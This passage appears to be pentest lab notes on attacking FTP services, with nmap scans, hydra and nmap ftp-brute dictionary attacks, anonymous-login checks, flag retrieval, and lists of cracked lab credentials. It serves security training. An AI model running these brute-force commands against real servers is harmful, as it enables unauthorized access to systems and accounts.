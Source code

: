 Credentials :

```
jane:abc123
admin:password1
```

### FTP

#### Basics

```bash
john@kali> ip a
john@kali> ping 192.152.30.3
john@kali> nmap 192.152.30.3

# 1. What is the version of FTP server?
john@kali> nmap 192.152.30.3 -p 21 -sV

# 2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt 
#    and password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
#    to check if any of these credentials work on the system. List all found credentials.
john@kali> hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.152.20.3 ftp

# 3. Find the password of user “sysadmin” using nmap script.
john@kali> echo 'sysadmin' > user.txt
john@kali> nmap 192.152.20.3 --script ftp-brute -p 21 --script-args passdb='/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt',userdb='user.txt'

# 4. Find seven flags hidden on the server.
john@kali> ftp 192.152.20.3 (sysadmin:654321, rooty:qwerty, (...), diag:tigger)
ftp> get secret.txt
```

Credentials : `sysadmin:654321` `rooty:qwerty` `demo:butterfly` `auditor:chocolate` `anon:purple` `administrator:tweety` `diag:tigger`

#### Anonymous login

```bash
john@kali> ip a
john@kali> ping 192.24.220.3
john@kali> nmap 192.24.220.3

# 1. Find the version of vsftpd server.
john@kali> nmap 192.24.220.3 -p 21 -sV

# 2. Check whether anonymous login is allowed on the ftp server using nmap script.
john@kali> nmap 192.24.220.3 -p 21 --script ftp-anon

# 3. Fetch the flag from FTP server.
john@kali> ftp 192.24.220.3 (anonymous:)
ftp> get flag
ftp> exit
john@kali> cat flag
```
